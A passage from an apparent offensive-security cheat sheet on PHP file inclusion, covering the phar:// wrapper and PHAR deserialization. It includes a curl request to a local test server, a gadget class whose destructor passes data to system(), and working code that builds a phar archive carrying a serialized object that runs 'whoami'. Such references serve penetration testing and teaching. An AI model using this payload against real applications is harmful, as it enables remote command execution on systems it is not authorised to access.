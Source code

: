 2. Use the `phar://` wrapper: `curl http://127.0.0.1:8001/?page=phar:///var/www/html/archive.phar/test.txt`


#### PHAR deserialization

:warning: This technique doesn't work on PHP 8+, the deserialization has been removed. 

If a file operation is now performed on our existing phar file via the `phar://` wrapper, then its serialized meta data is unserialized. This vulnerability occurs in the following functions, including file_exists: `include`, `file_get_contents`, `file_put_contents`, `copy`, `file_exists`, `is_executable`, `is_file`, `is_dir`, `is_link`, `is_writable`, `fileperms`, `fileinode`, `filesize`, `fileowner`, `filegroup`, `fileatime`, `filemtime`, `filectime`, `filetype`, `getimagesize`, `exif_read_data`, `stat`, `lstat`, `touch`, `md5_file`, etc.

This exploit requires at least one class with magic methods such as `__destruct()` or `__wakeup()`.
Let's take this `AnyClass` class as example, which execute the parameter data.

```php
class AnyClass {
	public $data = null;
	public function __construct($data) {
		$this->data = $data;
	}
	
	function __destruct() {
		system($this->data);
	}
}

...
echo file_exists($_GET['page']);
```

We can craft a phar archive containing a serialized object in its meta-data.

```php
// create new Phar
$phar = new Phar('deser.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

// add object of any class as meta data
class AnyClass {
	public $data = null;
	public function __construct($data) {
		$this->data = $data;
	}
	
	function __destruct() {
		system($this->data);
	}
}
$object = new AnyClass('whoami');
$phar->setMetadata($object);
$phar->stopBuffering();
```
